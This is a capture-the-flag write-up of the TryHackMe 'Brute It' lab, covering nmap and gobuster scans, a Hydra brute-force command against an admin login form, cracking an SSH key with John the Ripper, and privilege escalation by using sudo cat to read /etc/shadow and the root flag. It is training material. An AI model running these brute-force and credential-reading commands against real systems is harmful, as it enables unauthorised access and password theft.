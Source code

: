 ```yaml
---
title: Try Hack Me - Brute It
date: 2020-11-30 01:17 +0300
categories: [Try Hack Me]
tags: [linux,brute force,hash cracking,privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

# Nmap

First of all let's scan our machine and see what we have

<pre class="highlighter-rouge highlight">
nmap -sC -sV -O 10.10.238.144

Nmap scan report for 10.10.238.144
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/29%OT=22%CT=1%CU=35597%PV=Y%DS=2%DC=I%G=Y%TM=5FC404
OS:77%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
</pre>

So I will go web page and try to find something interesting.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-lowercase-2.3-medium.txt -u http://10.10.238.144

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.144
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
				 Starting gobuster
===============================================================
/admin (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/admin</code>

<img src="/assets/img/bruteit_img/admin.png">

# Hydra
Turn on Hydra to crack password!

<pre>
hydra -l admin -P /opt/rockyou.txt 10.10.238.144 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
[80][http-post-form] host: 10.10.238.144   login: admin   password: ******
</pre>

This link helped me with hydra usage <a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a>

We got the username and password. 
Sign in to website and we get'll the Web flag.

<img src="/assets/img/bruteit_img/admin_panel.png">

Also we can see RSA private flag. After googling i found that we need it for conneting to ssh. I copied it and named <code class="language-plaintext highlighter-rouge">id_rsa</code>. We must find the password to connect to ssh.

Let's brute it with John!

# John The Ripper

This link helped me with John and cracking password with RSA private key 
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.238.144</pre>

Now you can read User.txt

<img src="/assets/img/bruteit_img/user_flag.png">

# Privilage Escalation
Let's see what we can do with john account
<pre>sudo -l</pre>

John user can use <code class="language-plaintext highlighter-rouge">cat</code>

<pre>
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
</pre>
I went to <a href="https://gtfobins.github.io/gtfobins/cat/">gtfobins</a>

Hmmmm...I have no clue. And this guide - <a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a> shows that you can use <code class="language-plaintext highlighter-rouge">cat</code> to grab <code class="language-plaintext highlighter-rouge">/etc/shadow</code> and crack with John. You can do like author. 

I copied <code class="language-plaintext highlighter-rouge">etc/passwd</code> and cracked with John.

<pre>
LFILE=/etc/shadow
cat $LFILE
</pre>

<pre>
LFILE=/etc/passwd
cat $LFILE
</pre>

This article helped me with John and cracking password 
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>

After that I got the password and read the root flag
<img src="/assets/img/bruteit_img/rootflag.png">

We also could read the root flag without cracking password.
<pre>
LFILE=/root/root.txt
cat $LFILE
</pre>


# Userful for me references

<div><a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a></div>
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>
<div><a href="https://www.hackingarticles.in/linux-for-pentester-cat-privilege-escalation/">Privilage escalation with cat</a></div>
